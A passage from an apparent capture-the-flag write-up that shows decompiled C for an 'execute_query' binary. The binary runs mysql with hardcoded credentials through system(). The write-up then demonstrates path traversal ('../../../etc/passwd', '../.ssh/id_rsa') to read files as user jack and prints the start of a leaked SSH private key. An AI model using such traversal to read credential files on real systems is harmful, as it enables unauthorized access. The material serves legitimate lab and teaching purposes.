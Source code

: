 ```c++
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
    local_98 = 0x616a2f656d6f682f;
    local_90 = 0x69726575712f6b63;
    local_88 = 0x2f7365;
    sVar4 = strlen((char *)&local_98);
    sVar5 = strlen(pcVar3);
    __dest = (char *)calloc(sVar5 + sVar4 + 1,1);
    strcat(__dest,(char *)&local_98);
    strcat(__dest,pcVar3);
    setreuid(1000,1000);
    iVar1 = access(__dest,4);
    if (iVar1 == 0) {
      local_78 = 0x6e69622f7273752f;
      local_70 = 0x2d206c7173796d2f;
      local_68 = 0x656b63696c632075;
      local_60 = 0x6573755f62645f72;
      local_58 = 0x737361702d2d2072;
      local_50 = 0x6c63273d64726f77;
      local_48 = 0x62645f72656b6369;
      local_40 = 0x726f77737361705f;
      local_38 = 0x6b63696c63202764;
      local_30 = 0x203c20762d207265;
      local_28 = 0;
      sVar4 = strlen((char *)&local_78);
      sVar5 = strlen(pcVar3);
      pcVar3 = (char *)calloc(sVar5 + sVar4 + 1,1);
      strcat(pcVar3,(char *)&local_78);
      strcat(pcVar3,__dest);
      system(pcVar3);
    }
    else {
      puts("File not readable or not found");
    }
    uVar2 = 0;
  }
LAB_001015e1:
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
We have a binary which allow us to read any file we want to as the user `jack`, to use this first we need to know how to get to the / directory so later we can search for SSH keys or other things, after testing a while we get this `./execute_query 5 ../../../etc/passwd`, ok now we know how far we are from / so we can get a SSH key with `./execute_query 5 ../.ssh/id_rsa`
```
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
```
